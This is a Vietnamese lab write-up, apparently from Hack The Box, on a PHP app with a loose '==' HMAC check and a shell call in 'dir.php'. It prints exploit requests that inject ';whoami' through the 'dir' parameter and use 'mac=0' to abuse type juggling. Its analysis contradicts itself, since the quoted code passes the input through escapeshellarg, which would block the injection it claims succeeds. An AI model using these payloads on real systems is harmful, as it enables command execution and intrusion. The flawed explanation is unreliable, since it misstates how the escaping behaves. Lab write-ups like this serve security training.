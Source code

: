 - **Vấn đề**: `check_hmac` sử dụng so sánh lỏng lẻo (`==`) để kiểm tra MAC. Trong PHP, khi so sánh các giá trị dạng "số" (ví dụ: `0` và `0e...`), **type juggling** xảy ra và dẫn đến **true**.

---

#### **2. Lỗ hổng Command Injection trong `dir.php`**
Trong mã `dir.php`, tham số `dir` được sử dụng trực tiếp trong lệnh shell:
```php
$command = "ls " . escapeshellarg($_GET['dir']);
$output = shell_exec($command);
echo $output;
```

- **Vấn đề**: Nếu giá trị của `dir` không được xử lý đúng cách, kẻ tấn công có thể chèn các lệnh hệ thống.

---

### 3. **Khai thác**

#### **1. Xác nhận Command Injection**

1. **Tạm bỏ qua kiểm tra MAC**:
   Chỉnh sửa hàm `check_hmac` để luôn trả về `true`:
   ```php
   function check_hmac($dir, $nonce, $mac) {
       return true;
   }
   ```

2. **Gửi yêu cầu HTTP với payload độc hại**:
   ```http
   GET /dir.php?dir=/home/htb-stdnt/;whoami&nonce=1234&mac=anything HTTP/1.1
   ```
   Kết quả: Lệnh `whoami` được thực thi và trả về tên người dùng hiện tại.

---

#### **2. Khai thác Type Juggling để vượt qua kiểm tra MAC**

1. **Thay đổi lại hàm `check_hmac`** để kiểm tra MAC:
   ```php
   function check_hmac($dir, $nonce, $mac) {
       return $mac == custom_hmac($dir, $nonce);
   }
   ```

2. **Tận dụng type juggling**:
   - Chọn giá trị `mac` là `0`, do:
     ```php
     "0" == "0e..." // Trả về true
     ```
   - Payload:
     ```http
     GET /dir.php?dir=/home/htb-stdnt/;whoami&nonce=0&mac=0 HTTP/1.1
     ```
